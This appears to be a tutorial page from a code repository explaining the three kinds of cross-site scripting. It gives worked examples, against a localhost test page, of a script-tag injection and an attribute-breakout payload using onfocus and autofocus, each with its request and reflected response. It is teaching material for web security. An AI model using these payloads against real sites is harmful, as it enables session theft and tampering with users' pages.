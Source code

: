 ### Types of XSS
* **Reflected XSS** is immediately (non-persistent) reflected off the server and run in the client’s browser. It is commonly exploited as a GET request but can also be a POST request.
* **Stored XSS** is stored on the server (persistent) and executed when the stored exploit is retrieved. 
* **DOM Based XSS** is exploited client side in the DOM (Document Object Model) and is never sent to the server.

## XSS Examples

### HTML Tags
If HTML tags are not filtered or encoded, attackers can use valid tags, which will be interpreted by the browser as HTML/JavaScript. 

*Exploit:*  

```html
<script>alert(1337)</script>
```

*HTML:*  

```html
<h1>Welcome [variable]!</h1>
```

*Request:*  
`http://localhost:8080/xss?variable=<script>alert(1337)</script>` 

*Response:*  

```html
<h1>Welcome <script>alert(1337)</script>!</h1>
```


### Attributes
If " or ' is not encoded, attackers can break out of attribute tags and use JavaScript event handlers to exploit XSS, even if angle brackets are filtered. 

*Exploit:*  
`" onfocus="alert(1337)" autofocus="`

*HTML:*  

```html
<input id="[variable]" type=“text”>
```

*Request:*  
`http://localhost:8080/xss?variable=foo”+onfocus=“alert(1337)”+autofocus=“`

*Response:*  

```html
<input id="foo" onfocus="alert(1337)" autofocus="" type=“text”>
```
